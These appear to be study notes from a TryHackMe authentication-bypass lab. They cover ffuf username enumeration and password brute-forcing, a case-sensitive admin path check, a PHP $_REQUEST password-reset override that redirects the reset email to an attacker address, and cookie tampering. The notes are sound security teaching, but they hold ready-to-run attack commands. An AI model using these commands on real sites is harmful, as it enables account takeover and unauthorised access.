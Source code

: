 Common flaws in authentication mechanism that allow bypassing.

# 1. Username enumeration
Very helpful practice when trying to find auth vulns is creating a list of valid usernames, which we'll use later in other tasks.
This is usually done through website error messages. For example: `An account with this username already exists` 
The ffuf tool uses a list of commonly used usernames to check against for any matches.
```shell-session
user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.56.253/customers/signup -mr "username already exists" > usernames.txt
```
`-X` - specify the HTTP method
`-d` - specify the data that will be sent.
`-H` - specify the content type header as form data.
`-u` - specify the URL.
`-mr` - specify the regex expression for successful enum.

# 2. Brute Force
With the valid usernames already listed, we can attempt to brute force the login page. This is an automated process that tries a list of commonly used passwords against one or a list of usernames.

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.80.116/customers/login -fc 200
```
`-fc` - Ignores 200 codes, for when successful login returns 302 codes for example.

# 3. Logic Flaws in Authentication
A **logic flaw** happens when an application’s **intended logical flow** can be **bypassed, circumvented, or abused**.
It often results from **bad assumptions** or **improper sequencing** in code - **Design Errors**
#### Logic Flaw Example (Case-sensitive Path Check)
```php
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
- This code **only checks for lowercase `/admin`**.
    
- A user can access **`/adMin` or `/Admin`** and **bypass the check**, due to case-sensitivity and flawed logic.
#### Password Reset Flaw Overview

- The app first asks for an **email**, If valid, it proceeds to ask for the **username**.
- The reset confirmation is sent to the **email entered in the first step** (or so it seems).
###### The Vulnerability:
- **PHP `$_REQUEST`** merges data from both `$_GET`, `$_POST`, and `$_COOKIE`.
- If **`email` is passed both in GET and POST**, PHP gives **priority to POST** data.
###### Exploitation Steps

- Step 1: Use a legitimate email in the **GET** parameter:  
    `?email=robert@acmeitsupport.thm`
    
- Step 2: Override the email using **POST data**:  
    `-d 'username=robert&email=attacker@hacker.com'`
    
- Outcome: Password reset email is sent to the **attacker's email** instead of the real user's.
##### Curl Commands Used
- **Normal Request:**
```` bash
curl 'http://10.10.184.213/customers/reset?email=robert@acmeitsupport.thm' \ -H 'Content-Type: application/x-www-form-urlencoded' \ -d 'username=robert' 
````
   
- **Exploit Request (Overriding Email):**
```` bash
curl 'http://10.10.184.213/customers/reset?email=robert@acmeitsupport.thm' \ -H 'Content-Type: application/x-www-form-urlencoded' \ -d 'username=robert&email=attacker@hacker.com'   
````
##### 📌 Real-World Lessons

- **Email-based password reset logic** can be tricked if the server uses `$_REQUEST` improperly.
    
- Always check for:
    - **Redundant parameters** (GET + POST with same name).
    - **Improper trust in user-controlled inputs** (e.g., trusting `$_REQUEST` without validation).
    
- **Logic flaws** don’t rely on technical exploits like buffer overflows but on **bad design**.

# 4. Cookie Tampering

Modifying cookies sent by the server to:
- Bypass authentication
- Impersonate other users
- Escalate privilege

##### Plain Text Cookies
Some cookies are stored in **plain text**, making them easy to manipulate.

**Example:**

```http
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/
```

**💡 Takeaway:** If cookies are editable and not signed, you can **tamper with values to elevate privileges**.

##### Hashed Cookies
Sometimes cookies contain **hashed values** (e.g., MD5, SHA1, SHA256, SHA512).

**Example:**
- `Set-Cookie: session=c4ca4238a0b923820dcc509a6f75849b`  
    → This is the MD5 hash of `"1"`
**💡 Takeaway:**
- **Hashes are one-way**, but can often be cracked using hash lookup services like:
    🔗 [https://crackstation.net](https://crackstation.net/)

##### Encoded Cookies
Some cookies are just **Base64-encoded JSON**, making them easy to decode and modify.

**Example:**

```http
Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==;
```
- Decode Base64:
```json
{"id":1,"admin":false}
```
- Change to:
```json
{"id":1,"admin":true}
```
- Re-encode → new cookie:
   ```bash
echo '{"id":1,"admin":true}' | base64
# Result: eyJpZCI6MSwiYWRtaW4iOnRydWV9
```

**💡 Takeaway:**
- If cookies are **Base64-encoded**, you can often decode, modify, and re-encode them to gain **admin** or other access.
- **CyberChef** – decode/encode cookies, inspect base64 and JSON:
        - [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)